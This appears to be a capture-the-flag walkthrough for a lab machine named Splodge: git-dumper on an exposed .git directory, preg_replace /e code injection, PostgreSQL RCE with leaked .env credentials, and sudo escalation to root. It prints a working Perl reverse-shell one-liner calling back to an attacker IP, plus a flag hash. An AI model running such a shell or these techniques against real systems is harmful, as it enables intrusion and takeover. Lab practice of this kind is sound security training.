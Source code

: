 # Splodge

Splodge

Monday, June 13, 2022

3:22 PM

Nmap scan:

!\[\[55\_Splodge\_image001.png]]

&#x20;

!\[\[55\_Splodge\_image002.png]]

&#x20;

!\[\[55\_Splodge\_image003.png]]

&#x20;

Port 80:

!\[\[55\_Splodge\_image004.png]]

Gobuster scan:

!\[\[55\_Splodge\_image005.png]]

&#x20;

!\[\[55\_Splodge\_image006.png]]

&#x20;

All directories are inaccessible, but there's a .git directory.

!\[\[55\_Splodge\_image007.png]]

&#x20;

We also can't download this.

&#x20;

&#x20;

Port 1337:

!\[\[55\_Splodge\_image008.png]]

&#x20;

This seems to be some form of RCE thing.

Running a command works and outputs command line stuff.

!\[\[55\_Splodge\_image009.png]]

&#x20;

When inputting some illegal command, we get this:

!\[\[55\_Splodge\_image0010.png]]

&#x20;

So there's a basic WAF that only allows these commands to be run.

&#x20;

Port 8080:

!\[\[55\_Splodge\_image0011.png]]

&#x20;

There's an admin page for this website with no known passwords. Trying weak credentials or basic SQLI does not work here.

!\[\[55\_Splodge\_image0012.png]]

&#x20;

Burpsuite requests:

When viewing the requests made within Burpsuote, we can see how there are some tokens with PHP/5.6.40 being used here, which is an outdated version of PHP.

!\[\[55\_Splodge\_image0013.png]]

&#x20;

The cookie is quite useless:

!\[\[55\_Splodge\_image0014.png]]

&#x20;

&#x20;

However, it's good to know that there is Laravel and PHP being used here.

&#x20;

/.git:

When looking around the /.git directory, we can see that there is indeed some kind of files there.

!\[\[55\_Splodge\_image0015.png]]

&#x20;

We should try to gain some git repository so we have some source code to look at.

We can download git-dumper from here to download all the files that we want.

[https://github.com/arthaud/git-dumper](https://github.com/arthaud/git-dumper)

!\[\[55\_Splodge\_image0016.png]]

&#x20;

!\[\[55\_Splodge\_image0017.png]]

&#x20;

We can find a password here.

With that, we can login on port 8080.

!\[\[55\_Splodge\_image0018.png]]

&#x20;

There's this profanity filter regex and profanity replacement, as well as requiring us to use the admin password to update stuff.

Let's take a look at the source code from the git repository.

{width="5.552083333333333in" height="0.75in"}

&#x20;

Within PostController.php, there are lines of code there that would filter out certain things.

!\[\[55\_Splodge\_image0020.png]]

&#x20;

{width="8.90625in" height="2.0104166666666665in"}

&#x20;

There's this preg\_replace function that seems to edit the message, and after wards, we can see how the message is then passed somewhere else.

&#x20;

Preg\_Replace:

!\[\[55\_Splodge\_image0022.png]]

&#x20;

So basically, there are also some options to this function, such as using the 'e' modifier.

When googling for RCE related to this one function, there seems to be some.

!\[\[55\_Splodge\_image0023.png]]

&#x20;

This person abused the /e option to execute some code.

So we can do the same.

!\[\[55\_Splodge\_image0024.png]]

&#x20;

Then, we just need to send some text with the letter a and it will replace it with our shell there.

{width="9.84375in" height="2.0729166666666665in"}

&#x20;

!\[\[55\_Splodge\_image0026.png]]

&#x20;

This is what happens when we submit a comment with the letter a.

Now, we can gain a reverse shell.

&#x20;

Shell:

&#x20;

!\[\[55\_Splodge\_image0027.png]]

&#x20;

!\[\[55\_Splodge\_image0028.png]]

&#x20;

We can enter a comment and we would get this response.

!\[\[55\_Splodge\_image0029.png]]

&#x20;

{width="5.96875in" height="1.28125in"}

&#x20;

We can fix the PATH of this user

!\[\[55\_Splodge\_image0031.png]]

&#x20;

Flag:

!\[\[55\_Splodge\_image0032.png]]

&#x20;

PE:

TTY Shell:

!\[\[55\_Splodge\_image0033.png]]

&#x20;

!\[\[55\_Splodge\_image0034.png]]

&#x20;

Interesting output:

!\[\[55\_Splodge\_image0035.png]]

&#x20;

There is a port 25 listening on the inside of this machine.

That was rather interesting.

Going back to the Nmap scan, we can remember that there was PostGresSQL located within the machine.

A check on LinPeas reveals that the user called thesplodge is running it.

!\[\[55\_Splodge\_image0036.png]]

&#x20;

We could potentially gain RCE as this user if we can abuse PostGres.

We can read the files of the .env file located in the directory we spawned in, which is in /usr/share/nginx/html. The env files contains the credentials that we need for exploitation.

!\[\[55\_Splodge\_image0037.png]]

&#x20;

!\[\[55\_Splodge\_image0038.png]]

&#x20;

We can gain RCE through this.

!\[\[55\_Splodge\_image0039.png]]

&#x20;

We can get a reverse shell using this:

!\[\[55\_Splodge\_image0040.png]]

'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.49.109:8080");STDIN->fdopen($c,r);$\~->fdopen($c,w);system$\_ while<>;''';

&#x20;

{width="6.96875in" height="1.6145833333333333in"}

&#x20;

PE2:

!\[\[55\_Splodge\_image0042.png]]

Checking sudo privileges, we can just get root instantly and easily.

&#x20;

!\[\[55\_Splodge\_image0043.png]]

&#x20;

Flag:

!\[\[55\_Splodge\_image0044.png]]

b4c0e752c072b1f47930e13b1bbe6f76
